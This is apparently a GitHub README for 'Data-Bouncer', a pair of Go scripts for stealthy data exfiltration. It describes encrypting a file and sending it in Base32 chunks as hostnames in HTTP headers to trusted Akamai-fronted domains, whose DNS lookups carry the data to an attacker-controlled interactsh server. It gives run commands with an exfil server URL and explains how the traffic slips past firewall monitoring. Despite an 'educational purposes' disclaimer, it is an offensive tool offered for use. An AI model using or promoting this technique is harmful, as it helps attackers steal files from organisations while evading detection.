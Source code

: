# Data-Bouncer

I came across this Proof of Concept outlined here in https://thecontractor.io/data-bouncing.
I took their ideas and wrote two Go scripts designed for educational purposes. Please don't do anything illegal.

One script, bounce.go, encrypts and exfiltrates data via DNS by breaking it into chunks and sending it through HTTP headers. The second script, regenerate.go, reassembles and decrypts the data from the exfiltrated chunks. This method leverages trusted domains and HTTP headers to stealthily transmit data.

You will need an OOB dns server under your control for this to work and to collect the data. Here I'm using https://github.com/projectdiscovery/interactsh

From my testing this should work on most websites/domains that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt. It first encrypts your chosen file using a password you provide, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```
go run bounce.go -f <filename> -p <password> -u <UUID> -e <exfil server url> -v
```
or
```
.\bounce.exe -f <filename> -p <password> -u <UUID> -e <exfil server url> -v
```

### Regenerate.go
This script reads the JSON export from your interactsh exfil server, processes and reassembles the chunks, doing the reverse by decoding, decrypting, and finally outputting the file.

Example:
```
go run regenerate.go -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```
or
```
.\regenerate.exe -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```

### Images

Example of bouncing a file:

![bouncer](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/87499151-3fef-4acc-b1d8-f67591ae21b9)

Example of regenerating the file:

![regen](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/6a2ac6d1-7d40-455b-b1ae-a83143078076)

Example from interactsh web client:

![interactsh](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/8c8f3ac9-ccf8-44be-9417-36bff4bea1c4)

Example of the forward traffic from FortiGate:

![FortiGate1](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/e4f26c0b-53ec-45db-a438-6fc340b87d1d)

- As you can see, it looks like the traffic is going to 23.x.x.x, a highly trusted domain.
- However, when the HTTP request is made, the webserver looks at our modified HTTP headers and performs a dns lookup of our exfil server from those headers.
- Then we're able to collect each of those dns lookups to our exfil server and reconstruct the data from these headers.
- This only works because many webservers processes hostnames in the headers, and we can relay small chunks of data in those very same headers between endpoints.
- Therefore, this makes it an extremely stealthy way of exfiltrating data albeit a slow one.
